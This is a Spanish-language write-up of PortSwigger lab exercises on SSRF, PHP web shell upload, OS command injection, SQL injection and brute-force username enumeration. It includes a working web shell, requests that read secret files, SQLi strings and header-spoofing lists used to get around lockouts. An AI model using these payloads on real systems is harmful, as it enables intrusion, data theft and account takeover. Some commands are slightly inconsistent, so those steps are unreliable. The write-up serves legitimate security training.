





# **Server-side vulnerabilities**

### Lab: Basic SSRF against the local server

**Decription**

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at `http://localhost/admin` and delete the user `carlos`.

Process

Accedemos a cualquier productor para revisar la función, interceptando la petición con Burpsuite:

```bash
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1

Decode

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=3&storeId=1
```

Vamos a probar a acceder al panel, mediante el localhost, usando la petición


```bash
stockApi=http://localhost/admin
```

Vemos que nos carga el panel de Admin

Obserbamos el codigo y vemos el parametro para eliminar al usuario Carlos es: 

```bash
https://0a5b00400452e3b480b62675000700a8.web-security-academy.net/admin/delete?username=carlos
```

Usamos esta petición, desde la función de control de Stock y usando la dirección del localhost:

```bash
stockApi=http://localhost/admin/delete?username=carlos
```

Con esto, nos devuelve que el usuario ha sido eliminado y el laboratorio superado.
### Lab: Basic SSRF against another back-end system

**Description:**

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port `8080`, then use it to delete the user `carlos`

**Process**:

Accedemos a cualquier productor para revisar la función, interceptando la petición con Burpsuite:

```bash
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D2%26storeId%3D1

Decoded:

stockApi=http://192.168.0.1:8080/product/stock/check?productId=2&storeId=1
```

Vemos que apunta a 192.168.0.1:8080
Tal como nos indican en el laboratorio, tenemos que encontrar en que rango se encuentra el portal Admin. Para ello usaremos en el Intruder de Burpsuite, un ataque "Snipper" para ver que dirección nos da una respuesta válida. 

Usamos como Payload una lista de numeros, secuenciales del 1 al 255

```bash 
stockApi=http://192.168.0.$$:8080/admin
```

El resultado que nos da un 200 (respuesta OK) es el 251
Por lo tanto, podemos acceder al portal de admin mediante la función de control de stock en : 

```bash
stockApi=http://192.168.0.251:8080/admin
```

Si examinamos el código o vemos la petición, observamos que el parametro para eliminar el usuario Carlos es: 

```bash
delete?username=carlos
```

Mandamos entonces la petición siguiente, desde el control de Stocks:

```bash 
stockApi=http://192.168.0.251:8080/admin/delete?username=carlos
```

Con esto, queda finalizado el laboratorio.


### Lab: Remote code execution via web shell upload

**Description**

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

**Process**

Vemos que, desde la cuenta que nos dan, podemos subir una imagen para el avatar
Subimos un archivo php con una webshell

```php 
<?php echo system($_GET['cmd']); ?>
```

Nos indican que se ha subido correctamente el archivo con el siguiente mensaje:

*"The file avatars/webshell.php has been uploaded"*

Si mantenemos el proxy capturando, vemos que hay una solicitud GET hacia : 

```php
GET /files/avatars/webshell.php HTTP/2
```

Si mandamos al Repeater y modificamos la petición para mandar: 

```php
GET /files/avatars/webshell.php?cmd=cat%20/home/carlos/secret 

# Obtenemos

Hm0Ft2cUcTRZJTr9Tx54l6LSWlqGoazN

```

NOTA: En el sitemap de Burpsuite, aparece la ubicación donde subimos el archivo (/files/avatars)

METODO 2: 

Para saber en que ubicación se guarda el archivo, hacemos fuzzing a la web en busca de directorios potenciales:

```bash
gobuster dir -u https://0af300b7048f86bd81fb39b0000d006b.web-security-academy.net/  -w /usr/share/seclists/Discovery/Web-Content/common.txt -r -x php

Starting gobuster in directory enumeration mode
===============================================================
/Login                (Status: 200) [Size: 3422]
/analytics            (Status: 200) [Size: 0]
/favicon.ico          (Status: 200) [Size: 15406]
/files                (Status: 403) [Size: 277]
/login                (Status: 200) [Size: 3422]
/logout               (Status: 200) [Size: 8460]
/my-account           (Status: 200) [Size: 3422]
/post                 (Status: 400) [Size: 27]
Progress: 9500 / 9500 (100.00%)
```

Probamos con el directorio /files

```bash 
https://0af300b7048f86bd81fb39b0000d006b.web-security-academy.net/files/avatars/webshell.php?cmd=id

uid=12002(carlos) gid=12002(carlos) groups=12002(carlos) uid=12002(carlos) gid=12002(carlos) groups=12002(carlos)
```

Vemos que el sistema nos devuelve el comando, por lo que ahora, vamos a probar a leer el fichero /home/carlos/secret

```bash
https://0af300b7048f86bd81fb39b0000d006b.web-security-academy.net/files/avatars/webshell.php?cmd=cat /home/carlos/secret

Hm0Ft2cUcTRZJTr9Tx54l6LSWlqGoazNHm0Ft2cUcTRZJTr9Tx54l6LSWlqGoazN

NOTA: Aparece duplicado, el codigo seria:

Hm0Ft2cUcTRZJTr9Tx54l6LSWlqGoazNH
```

Facilitamos el contenido del fichero y solucionamos el laboratorio.

### Lab: Web shell upload via Content-Type restriction bypass

**Description**

This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

**Process**

En primer lugar, accedemos a la cuenta facilitada y tratamos de subir un archivo.
Vemos que con un fichero jpg/png, lo carga sin problemas.

Probamos lo mismo con un archivo PHP (la webshell) y nos muestra un error: 

```bash
Sorry, file type application/x-php is not allowed
Only image/jpeg and image/png are allowed
Sorry, there was an error uploading your file
```

Ahora vamos a tratar de manipular el contenido del Content Type para forzar que el archivo php sea interpretado como jpg

```bash
# Original

Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: application/x-php

<?php echo system($_GET['cmd']); ?>

# Modificado

Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/jpeg <--------

<?php echo system($_GET['cmd']); ?>

```

De esta manera el fichero es admitido y recibimos

```bash
The file avatars/webshell.php has been uploaded
```

Si accedemos a la ruta anterior, obtenemos el archivo secreto:

```bash
/files/avatars/webshell.php?cmd=cat /home/carlos/secret

hDUtqWXP0QX6bHHkgV7MzsHlIvpq3O4i
```

### Lab: OS command injection, simple case

**Description**

This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the `whoami` command to determine the name of the current user.

**Process**

Si capturamos la petición en el control de accesos, muestra la siguiente estructura:

```bash
productId=0&storeId=2

73
```

Probamos a inyectar un comando despues de la última instrucción

```bash
productId=0&storeId=2&echo test
73
```

Vemos que no se procesa el comando. Probamos otro método para inyectar comandos

```bash
productId=0&storeId=2;echo test
73
test
```

De esta manera si lo interpreta. Para solucionar el laboratorio:

```bash
productId=0&storeId=2&whoami
73
peter-kT1P6l
```

### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

**Description**

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

**Process**

Localizamos y caputramos la petición para filtrar por categorias, por ejemplo:

```bash
https://0a0d001603e4bbf7828f4d4b00f900df.web-security-academy.net/filter?category=Lifestyle

GET /filter?category=Pets' or 1=1 -- HTTP/2
```

La petición muestra productos descontinuados que no aparecen en las anteriores busquedas.

### Lab: SQL injection vulnerability allowing login bypass

**Description**

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

**Process**

Hacemos la captura de la petición de login:

```bash
csrf=435rgNd49PdlEzNwQpVdCbVabnJE5wol&username=administrator&password=test

```

Y modificamos con la inyeccion sql

```bash
csrf=435rgNd49PdlEzNwQpVdCbVabnJE5wol&username=administrator'--&password=test
```

# Authentication vulnerabilities

### Lab: Username enumeration via different responses

**Description**

This lab is vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

**Process**

En primer lugar, capturamos la petición de usuario y contraseña.
Mandamos la petición al Intruder, para configurar un ataque "Snipper" para tratar de encontrar el usuario contraseña por fuerza bruta, usando los diccionarios facilitados.

Modificamos en la petición:

```bash
username=test&password=test

# Añadimos las posiciones para usar los diccioanrios

username=$$&password=test

Payload 1: Simple list (Usernames labs )
```

Aquí hay un usuario que devuelve un tamaño de  respuesta diferente, y comprobamos que es un mensaje diferente a Invalid usarname, devuelve "Invalid password" , por lo que tenemos un usuario válido.

Username: adsl

Lo siguiente es hacer el mismo ataque que antes, pero en la posicion de password

```bash 
username=adsl&password=$$

Payload 1: Simple list (Password labs )
```

Buscamos en las respuestas, alguna que tenga un tamaño diferente al resto,lo que significa que mostrará algo diferente a  "Incorrect password".
Encontramos una respuesta, con un tamaño mucho mas pequeño (186) y que da un código correcto de redirección.

Username: adsl
Password: 987654321

Probamos las credenciales y son correctas, con lo que se soluciona el laboratorio

### Lab: Username enumeration via subtly different responses

**Description**

This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

**Process**

Cuando probamos el formulario de login, vemos que esta vez la respuesta es  para cualquier combinación:

```bash
Invalid username or password.
```

El argumento del laboratorio nos advierte que tenemos que enumerar usuarios con una "sutil " diferencia en las respuestas.

Para ello, vamos a configurar el ataque en el Intruder como antes, pero esta vez vamos a usar la configuración "Gre-Extract" para poder obtener todas las respuestas posibles, para ver si tenemos alguna diferencia.

Iniciamos el ataque con la Simple list de los usuarios facilitados y, observando la nueva columna que hemos definido con el grep, vemos que una de las lineas es diferente al resto (aparece sin punto)

```bash
Invalid username or password
```

El usuario que proporciona esta respuesta es : 

Username: arcsight

Seguimos con el Snipper Attack para los passwords con este usuario : 

Password: soccer

Nos logoamos y queda el laboratorio solucionado

### Lab: Broken brute-force protection, IP block

**Description**

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

**Process**

Durante el proceso de login , vemos que el servidor bloquea el acceso durante 1 minuto si se realizan mas de 3 intentos.

Después de investigar y probar diferentes peticiones, hemos visto que no sirve utilizar el bypass en el header del tipo:

```bash
X-Forwarded-For: IP

# Ex:

X-Forwarded-For: 203.0.113.195
```

Hemos visto en laboratorios anteriores, que si usábamos un ataque del tipo Pitchfork, podiamos añadir un Payload en el último digito del header y otro para el usuario/password.

En este laboratorio, y tras probar diferentes payloads : 

```bash

X-Forwarded-Host: 127.0.0.1
X-From-IP: 127.0.0.1
X-From: 127.0.0.1
X-Gateway-Host: 127.0.0.1
X-Host: 127.0.0.1
X-Ip: 127.0.0.1
X-Original-Host: 127.0.0.1
X-Original-IP: 127.0.0.1
X-Original-Remote-Addr: 127.0.0.1
X-Original-Url: 127.0.0.1
X-Originally-Forwarded-For: 127.0.0.1
```

Pero vemos que el servidor no está interpretando el header y sigue mostrando el bloqueo en el 4to intento.

Hemos comprobado que si hacemos login una cuarta vez, aunque sea con el usuario válido el sistema se bloquea.

Debemos por lo tanto organizar un ataque, que nos permita ir haciendo un login válido despues de un intento fallido, para poder hacer la fuerza bruta en el usuario especificado y no colapsar el sistema

Lo haremos mediante el Intruder y configuraremos: 

Ataque tipo Pitchfork:

```bash 

- Lista 1 (`username`):
  
victima
usuario_valido
victima
usuario_valido
..

- Lista 2 (`password`):

pass1
password_valido
pass3
password_valido
pass4
password_valido
...
```

Quedaria:

Ataque:


```
- Lista 1 (`username`):
  
carlos
wiener
carlos
wiener
carlos
...

-   Lista 2 (`password`):
123456
peter
password
peter
12345678
peter
```

La lista de usuarios, es sencillo crearla copiando y pegando, pero para intercalar el password correcto en la lista de passwords que ya tenemos, usaremos awk

```bash
awk -v name="peter" '{print $0} NR%1==0 {print name}' passwords.txt > passwords_block.txt

# Explicación comando

-v name="..." <- Define una variable en awk con el texto que queremos añadir 
{print $0}    <- Imprime cada liniea original del fichero passwords.txt
NR%1==0 {print name} <- Cada 1 lineas (NR= numero de linieas), imrpime el valor de "name"
```

Tenemos que crear la lista de usuarios con las mismas entradas que la lista de passwords, y hacer coincidir las entras para cada prueba. Comprobamos que la lista final de password (con los validos añadidos) es de 200 lineas, por lo que crearemos el fichero de usuarios, de 200 lineas igual para que quede alineado.

Cargamos las listas en los payloads correspondientes y revisamos las respuesta. Vemos que se intercala una correcta con una incorrecta, sin llegar a saturar al servidor.

Si revisamos las respuestas del servidor a las peticiones, vemos : 

```bash
carlos - mom - 302 - Redirección OK
```

Accedemos con el usuario/password y finalizamos el lab.

### Lab: Username enumeration via account lock

**Description**

This lab is vulnerable to username enumeration. It uses account locking, but this contains a logic flaw. To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

**Process**

En este laboratorio vemos que los mensajes de error tras los login, son el mismo para usuario y contraseña : 

```bash
Invalid username or password.
```

Hemos detectado que tan solo cambia cuando se prueba mas de 4 veces un password para un usuario válido, dando un mensaje de bloquedo durante un minuto.

Lo que hacemos es crear una lista para enumerar usuarios, en los que duplicamos los nombres de cada usuario 3 veces para que, mediante un ataque ClusterBomb, prueba las contraseñas seguidas para cada usuario, buscando que usuario es válido y nos cambia el menaje de error. Así obtendremos el usuario correcto.



En la lista del primer Payload irá la lista de usuarios duplicada:

```bash
arlos
carlos
carlos
carlos
root
root
root
root
admin
admin
admin
admin
test
test
test
test
guest
guest
guest
guest
...
```

Y en el Payload2, pondremos un único password : 12345

En los resultados vemos , un usuario con una longitud diferente u si observamos la respuesta aparece : 


Usuario: alterwind



Por lo que sabemos que este es el usuario válido.

Vamos a tratar de encontrar el password: 

Creamos ahora un ataque tipo Sniper, con el usuario que hemos encontrado y como Payload la lista de password facilitada.

En este caso, añadimos un ExtractGrep para ver las respuestas. En la columna de los resultados vemos uno que es diferente al resto, ya que aparece en blanco:



Password: starwars

Esperamos un minuto y nos logamos con este usuario y cotraseña y con esto queda finalizado el laboratorio.




